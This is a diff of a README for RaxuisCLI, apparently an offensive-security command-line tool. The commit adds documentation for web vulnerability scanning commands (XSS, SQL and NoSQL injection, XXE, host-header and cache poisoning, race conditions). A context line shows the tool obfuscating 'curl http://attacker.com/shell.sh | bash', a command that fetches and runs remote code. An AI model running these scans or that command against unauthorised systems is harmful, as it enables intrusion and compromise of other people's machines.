

Before and after one commit to Raxuis/RaxuisCLI, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 86% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
feat(docs): update README with web security commands for HTTP requests, fuzzing, vulnerability scanning, and cookie analysis

````diff
--- a/README.md
+++ b/README.md
@@ -672,0 +733,65 @@ raxuiscli obfuscate bash "curl http://attacker.com/shell.sh | bash"
+**Use cases:**
+- Hidden directory discovery
+- Parameter enumeration
+- Virtual host enumeration
+- Content discovery
+
+---
+
+#### `vuln` - Vulnerability Scanning
+Comprehensive web vulnerability detection.
+
+```bash
+# Quick scan (all basic checks)
+raxuiscli vuln scan "https://site.com?id=1"
+raxuiscli vuln scan "https://site.com?q=test" --level 3   # Aggressive
+
+# XSS testing
+raxuiscli vuln xss "https://site.com?q=test"
+raxuiscli vuln xss "https://site.com?name=foo" --level 3
+
+# SQL injection
+raxuiscli vuln sqli "https://site.com?id=1"
+raxuiscli vuln sqli "https://site.com?cat=1" --level 3
+
+# Local File Inclusion
+raxuiscli vuln lfi "https://site.com?file=about.php"
+
+# Security headers
+raxuiscli vuln headers https://example.com
+
+# CORS misconfiguration
+raxuiscli vuln cors https://api.com
+raxuiscli vuln cors https://api.com --origin "https://evil.com"
+raxuiscli vuln cors https://api.com --full
+
+# NoSQL injection (MongoDB)
+raxuiscli vuln nosqli "https://api.com/users?id=1"
+raxuiscli vuln nosqli "https://api.com/login" -d '{"user":"test","pass":"test"}'
+raxuiscli vuln nosqli "https://api.com" --level 3
+
+# XXE (XML External Entity)
+raxuiscli vuln xxe https://api.com/upload
+raxuiscli vuln xxe https://api.com --payload file
+raxuiscli vuln xxe https://api.com --oob http://callback.com
+
+# GraphQL security
+raxuiscli vuln graphql https://api.com/graphql
+raxuiscli vuln graphql https://api.com/graphql --introspect
+raxuiscli vuln graphql https://api.com/graphql --dos
+
+# Host header injection
+raxuiscli vuln host https://example.com
+raxuiscli vuln host https://example.com --poison   # Password reset poisoning
+raxuiscli vuln host https://example.com --cache    # Cache poisoning
+
+# Race conditions
+raxuiscli vuln race "https://api.com/transfer" -d '{"amount":100}' --requests 50
+raxuiscli vuln race "https://api.com/redeem" -d '{"code":"PROMO"}' --requests 20
+
+# List payloads
+raxuiscli vuln payloads xss --level 3
+raxuiscli vuln payloads sqli --level 2
+raxuiscli vuln payloads nosqli
+```
+
@@ -780,11 +948,11 @@ See [ROADMAP.md](ROADMAP.md) for progress and upcoming features.
 | Sprint 1 | Network (dns, whois, recon) | ✅ 100% |
 | Sprint 1.5 | Red Team Tools (15 commands) | ✅ 100% |
 | Sprint 2 | Cryptography (cipher, jwt, keygen, certinfo) | ✅ 100% |
-| Sprint 3 | Web Security | ⏳ Coming soon |
+| Sprint 3 | Web Security (http, fuzz, vuln, cookie) | ✅ 100% |
 | Sprint 4 | Binary Analysis | ⏳ Coming soon |
 | Sprint 5 | Utilities | ⏳ Coming soon |
 
-**Current progress: 22/31 commands (71%)**
+**Current progress: 26/31 commands (84%)**
 
 ---
 
````
Also changed, not shown: other parts of README.md (+103 -0 lines).
